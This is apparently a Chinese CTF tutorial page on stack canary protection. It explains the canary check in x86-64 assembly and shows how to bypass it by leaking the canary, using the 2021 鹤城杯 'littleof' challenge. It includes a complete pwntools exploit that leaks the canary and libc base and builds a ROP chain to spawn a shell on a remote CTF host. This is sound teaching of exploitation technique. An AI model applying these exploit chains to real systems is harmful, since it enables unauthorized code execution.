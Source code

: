 ```yaml
---
stas: true
comment: True
---
```


# 防护

## Canary

### 原理

开启Canary防护后，栈结构如下

![Canary-stack](./assets/Canary-stack.png)

程序会取寄存器fs的0x28位置的值，放入rbp-0x8的位置

~~~asm
mov    rax, qword ptr fs:[0x28]
mov    qword ptr [rbp - 8], rax
~~~

在函数返回之前，会将该值取出，并与 fs:0x28 的值进行异或。如果异或的结果为 0，说明 Canary 未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。

~~~asm
mov    rdx,QWORD PTR [rbp-0x8]
xor    rdx,QWORD PTR fs:0x28
je     0x4005d7 <main+65>
call   0x400460 <__stack_chk_fail@plt>
~~~

### 绕过

#### 泄露Canary

Canary的值以**'\x00'**结尾，保证其能够截断字符串，所以我们可以覆盖Canary的低位，来获得Canary的剩余部分，最后通过栈溢出来取得权限。

##### 例子

以[2021 鹤城杯]littleof为例，先进行checksec

![littleof-checksec](./assets/littleof-checksec.png)

开启了NX,Canary保护

再查看IDA，发现函数**sub_4006E2**中的**read**有栈溢出漏洞

![littleof-sub4006E2](./assets/littleof-sub4006E2.png)

**read**读取最大长度为**0x100**，而buf的最大长度为**0x50**。

题目开了**Canary**不能直接进行栈溢出，但第11行的**printf**会输出我们输入的内容，所以可以通过覆盖Canary的最低位**'/x00'**，来让程序泄露Canary值，从而在后面的溢出中将 Canary 填入到相应的溢出位置,绕过防护。

同时，程序没有**system**和**/bin/sh**的地址，我们可以通过泄露puts的got来得到libc基址，然后再次返回main进入sh

exp:

~~~python
from pwn import *

context(os = 'linux',arch = 'amd64',log_level = 'debug')
p = remote("node4.anna.nssctf.cn","28555")

elf = ELF('./littleof')

main_addr = 0x400789
ret_addr = 0x40059e
pop_rdi_addr = 0x400863
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload1 = b'a'*(0x50-0x8)
p.sendlineafter("overflow?\n",payload1)
p.recvuntil(b'a'*(0x50-0x8))
canary_addr = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
print("canary:",hex(canary_addr))

payload2 = b'a'*(0x50-0x8) + p64(canary_addr) + p64(0) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter("harder!",payload2)
p.recvline()
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print('puts_addr:',hex(puts_addr))

base_addr = puts_addr - 0x080aa0
system_addr = base_addr + 0x04f550
binsh_addr = base_addr + 0x1b3e1a

payload1 = b'a'*(0x50-0x8)
p.sendlineafter("overflow?\n",payload1)
p.recvuntil(b'a'*(0x50-0x8))
canary_addr = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
print('canary:',hex(canary_addr))

payload3 = b'a'*(0x50-0x8) + p64(canary_addr) + p64(0) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(0xdeadbeef)

p.sendlineafter("harder!",payload3)
p.interactive()
~~~

运行结果:

![littleof-flag](./assets/littleof-flag.png)